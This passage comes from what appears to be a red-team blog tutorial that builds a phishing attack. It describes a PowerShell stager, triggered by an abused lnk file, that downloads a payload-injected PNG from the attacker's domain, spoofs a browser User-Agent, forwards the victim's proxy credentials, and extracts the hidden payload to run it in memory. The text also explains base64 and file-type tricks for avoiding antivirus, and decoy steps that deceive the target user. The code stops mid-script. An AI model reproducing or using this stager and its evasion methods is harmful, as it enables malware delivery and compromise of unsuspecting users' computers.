 ![](/cybernautblog/redteam_post_2/injectedImg.png)

Double click the newly created injected image and verify that it renders. If everything checks out lets move on to creating the powershell stager which will be triggered by a target user during the phish. 

------------------------------------------

# [Powershell Stager]

**[Attacker Machine(Kali)]**

###### Details

This script will be triggered by the target user. Its purpose is to send a HTTP GET request to retrieve the image and then extract the payload, decode it, then execute it all in memory. The HTTP GET will contain a User-Agent string header masquerading as a windows 10 based host/browser. If a proxy is configured in the windows settings on the target host the request will use the proxy and pass the current user sessions credentials to the proxy if the proxy requires authentication.

We want to avoide anti-virus and the best way to do that is execute in memory. However, since this mechanism will be triggered by the phish and has to touchthe disk on order to do that we will make sure the script performs simple operations on the target host so that signature based detections are not triggered. **To add another layer of obfuscation we will encode the entire script in base64** and save it to a text file. This does two things. When the file touches disk and is at rest the script is encoded so the code and its operations are not visible to clear text. Even if the anti-virus was to detect the encoding and decode the string it will still be basic benign operations being performed. By saving the encoded script into a text file we avoid extra scrutiny that signature based detections might run on a script file (.ps1 file in this case).

**The trigger to decode and executed the stager script will be achieved by abusing a lnk file.** This will be discussed in more detail in the phish payload section.

Lets view and modify our powershell stager script before we encode it for our phishing payload. Notice there are also aspects and actions on behalf of the phish that will take place when the stager is triggered. These actions will clean up some files and perform some actions relative to the phish providing further deception to the target user. Details about that will come later.


```powershell
# Phish decoy file
$pdfFilePath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("UserProfile"), "Downloads\<zip folder>\<phish>.pdf")

# Phish decoy action
Set-ItemProperty -Path $pdfFilePath -Name Attributes -Value 0 -ErrorAction SilentlyContinue

try {
    # Define the URL of the PNG image to download
    $imageUrl = "http://<your domain>/<injected image>.png" # Can change to HTTPS (Extra layer of security)

    $webClient = New-Object System.Net.WebClient
    $webClient.Proxy = [System.Net.WebRequest]::GetSystemWebProxy()
    $webClient.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
    $webClient.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36") # This can be change to any user agent to masquerade as any type of device making the HTTP request

    # Download the PNG image from the URL
    $imageBytes = $webClient.DownloadData($imageUrl)

    $startOffset = 0x100   # Offset of payload that was verified with hexedit
    $textLength = 100      # Length of payload

    # Extract the embedded text from the image bytes as hexadecimal
```